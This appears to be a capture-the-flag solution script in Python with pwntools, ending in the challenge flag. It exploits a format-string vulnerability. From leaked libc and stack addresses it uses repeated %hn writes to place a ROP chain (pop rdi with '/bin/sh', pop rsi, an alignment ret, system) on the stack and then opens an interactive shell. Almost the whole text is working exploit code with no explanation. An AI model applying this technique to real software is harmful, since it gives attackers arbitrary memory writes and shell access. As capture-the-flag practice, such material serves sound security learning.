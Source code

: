 ```python
log.info('Libc leak: ' + hex(libc_leak))
log.info('Stack leak: ' + hex(stack_leak))

libc.address = libc_leak - 0x2724a
ret_addr = stack_leak - 0x110
log.info('Libc base: ' + hex(libc.address))
log.info('Ret addr: ' + hex(ret_addr))

def mywrite(addr, val):
    fst = (val >> (8*4)) & 0xffff
    snd = (val >> (4*4)) & 0xffff
    thd = val & 0xffff
    for i, w in enumerate([thd, snd, fst]):
        r.sendlineafter(b'n:', b'y')
        pay = f'%{w}c%10$hn'
        pay += 'a' * (16-len(pay))
        pay = pay.encode()
        pay += p64(addr+(i*2))
        r.sendlineafter(b'>', pay)

# ROP 1: pop rdi <- /bin/sh
pop_rdi = libc.address + 0x277e5
mywrite(ret_addr, pop_rdi)

binsh = libc.address + 0x196031
mywrite(ret_addr+8, binsh)

# ROP 2: pop rsi <- 0
pop_rsi = libc.address + 0x28f99
mywrite(ret_addr+(8*2), pop_rsi)

curr = ret_addr+(8*3)
r.sendlineafter(b'n:', b'y')
pay = f'%10$lln'
pay += 'a' * (16-len(pay))
pay = pay.encode()
pay += p64(curr)
r.sendlineafter(b'>', pay)

# ROP 3: ret for 16 byte aligned
ret = libc.address + 0x26e99
mywrite(ret_addr+(8*4), ret)

# ROP 4: system
mywrite(ret_addr+(8*5), libc.sym['system'])

r.sendlineafter(b'n:', b'n')
r.interactive()
# nite{0nLy_n4ugHty_k1d5_Use_%n}
```
